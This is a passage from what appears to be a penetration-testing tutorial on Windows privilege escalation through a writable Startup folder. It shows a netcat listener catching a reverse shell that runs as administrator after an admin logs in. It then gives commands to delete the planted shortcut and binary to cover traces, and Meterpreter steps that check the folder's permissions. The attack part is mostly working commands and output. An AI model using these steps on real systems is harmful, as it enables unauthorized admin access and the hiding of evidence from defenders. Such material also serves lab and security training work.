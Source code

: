 Now we wait for the administrator user to login and wait for a callback connection.

```
$ xfreerdp /u:<username> /p:<password> /cert:ignore /v:<IP>

$ rdesktop -u <username> -p <password> <IP>

$ sudo nc -lvnp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.221.80.
Ncat: Connection from 10.10.221.80:49882.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
win-qba94kb3iof\admin
```


### 1.3 - Cleanup

Now the problem is through this netcat handler we can't revert back to it's original binary file. However, once you perform this technique use metasploit framework as a shell handler since it is easily can be migrated to another process and to revert back just like I've previously demonstrated when covering your traces. Take this OPSEC measure into account.

```
C:\Windows\system32> del "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\update.lnk"

C:\Windows\system32> del /path/to/shell.exe
```

## 02 - Metasploit

### 2.1 - Detect

```
meterpreter > getuid
Server username: TCM-PC\user
meterpreter > ls C:\\ProgramData\\Microsoft\\Windows\\Start\ Menu\\Programs\\Startup\\
Listing: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\
======================================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  178   fil   2015-03-27 08:34:08 -0400  Ec2WallpaperInfo.url
100666/rw-rw-rw-  174   fil   2009-07-14 00:54:24 -0400  desktop.ini

meterpreter > execute -Hicf icacls -a "\"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\""
Process 1888 created.
Channel 6 created.
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup BUILTIN\Users:(F)
                                                             TCM-PC\TCM:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```
